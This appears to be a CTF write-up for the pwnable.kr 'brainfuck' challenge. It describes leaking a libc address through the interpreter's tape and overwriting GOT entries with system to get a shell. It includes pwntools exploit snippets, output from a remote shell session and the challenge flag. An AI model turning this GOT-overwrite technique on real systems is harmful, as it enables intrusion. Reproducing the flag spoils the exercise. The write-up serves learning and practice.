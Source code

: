 # Pwnable.kr - Brainfuck CTF Writeup

## Challenge Summary

* **Name**: brainfuck
* **Platform**: [pwnable.kr](http://pwnable.kr)
* **Category**: Exploitation / Pwn
* **Difficulty**: Medium

We’re given a custom Brainfuck interpreter binary that allows us to input brainfuck instructions, except `[` and `]`. Our goal is to get a shell.

---

## Analysis

The binary disables loops (`[` and `]`), limiting traditional brainfuck control flow. But we still have access to `,` (input), `.` (output), `<`, and `>` to manipulate the tape, and can abuse memory writes with `,`.

### Observations:

* There is a static tape pointer at address `0x0804a0a0`
* We can leak memory with `.`
* We can write arbitrary data with `,`
* GOT entries for functions like `fgets`, `memset`, `putchar` are writable

We use this to:

1. Leak a libc address (`fgets@GOT`)
2. Calculate the libc base
3. Overwrite a GOT entry with the address of `system`
4. Send `/bin/sh` and trigger a shell

---

## Exploit Strategy

### Step 1: Leak `fgets` address

```python
pl = move(tape, plt["fgets"])
pl += read(4)
pl += write(4)
```

This reads the 4-byte pointer from `fgets@GOT` and writes it back so we can read it with `.`, leaking the libc address.

### Step 2: Overwrite GOT entries

```python
pl += move(plt["fgets"], plt["memset"])
pl += write(4)
pl += move(plt["memset"], plt["putchar"])
pl += write(4)
pl += '.'  # trigger output
```

### Step 3: Parse libc leak and calculate `system`

```python
fgets = int.from_bytes(r.recvn(4), byteorder="little", signed=False)
libc_base = fgets - offset["fgets"]
gets = libc_base + offset["gets"]
system = libc_base + offset["system"]
```

We use pwntools' ELF parser to grab the offsets for `fgets`, `gets`, and `system`:

```python
libc = ELF("./bf_libc.so")
offset = {
    "fgets": libc.symbols[b"fgets"],
    "gets": libc.symbols[b"gets"],
    "system": libc.symbols[b"system"]
}
```

### Step 4: Send `/bin/sh` and overwrite memset with system

Then we send `/bin/sh` to tape, overwrite `memset@got` with `system`, and call it.

---

## Final Exploit Output

```
$ python3 brainfuck_exploit.py
[*] '/Users/flacco/CTFS/Brainfuck/bf_libc.so'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to pwnable.kr on port 9001: Done
fgets: 0xf7d8f160
gets:  0xf7d903f0
system: 0xf7d6bdb0
[*] Switching to interactive mode
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ whoami
brainfuck_pwn
$ ls -la
total 12
drwxr-xr-x 1 root          root          4096 Apr 27 13:35 .
drwxr-xr-x 1 root          root          4096 Jun  9 13:38 ..
drwxr-xr-x 1 brainfuck_pwn brainfuck_pwn 4096 May 19 04:07 brainfuck_pwn
$ cd brainfuck_pwn
$ ls
brainfuck
flag
super.pl
$ cat flag
bR41n_F4ck_Is_FuN_LanguaG3
```

---

## Takeaways

* This was a lot harder than the previous Blackjack Exploit, I did.
* Forntunately I had many resources to learn what exploit technique was needed
* for this CTF. I realized that my payload was not great and after seeing advanced payloads
* I improved my ability to write python payloads to automate the process fo finding offsetts
* and addresses. 

---

## Files

* `brainfuck_exploit.py` (main script)
* `bf_libc.so` (libc dump from remote)
